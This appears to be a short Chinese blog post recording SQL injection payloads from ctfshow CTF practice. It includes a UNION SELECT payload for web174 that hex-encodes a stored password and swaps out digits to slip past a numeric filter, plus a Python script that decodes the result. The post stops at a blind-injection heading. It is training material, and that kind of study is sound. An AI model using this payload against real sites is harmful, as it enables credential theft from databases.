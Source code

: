 ```yaml
---
title: sql注入脚本------正在更新
date: 2024-05-22 14:55:12
permalink: /pages/e9d443/
categories:
  - web
tags:
  - sql注入
author: 
  name: ajay
  link: https://the0n3.top
---
```

# sql注入的一些脚本

记录ctfshow刷题过程的sql



[参考](https://www.cnblogs.com/IFS-/p/17350543.html)  

☝🤓强烈推荐

## 0-9过滤

web174

payload：1'union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(hex(password),'1','aa'),'2','bb'),'3','cc'),'4','dd'),'5','ee'),'6','ff'),'7','gg'),'8','hh'),'9','ii'),'0','jj'),'a' from ctfshow_user4 where username='flag'--+

还原脚本

```python
# 代替0-9

flag='查出替换后的flag'

flag=flag.replace('aa','1').replace('bb','2').replace('cc','3').replace('dd','4').replace('ee','5').replace('ff','6').replace('gg','7').replace('hh','8').replace('ii','9').replace('jj','0')

flag = bytes.fromhex(flag).decode("ascii")

print(flag)
```

## 聚合函数------布尔盲注


### 模糊匹配

web 183
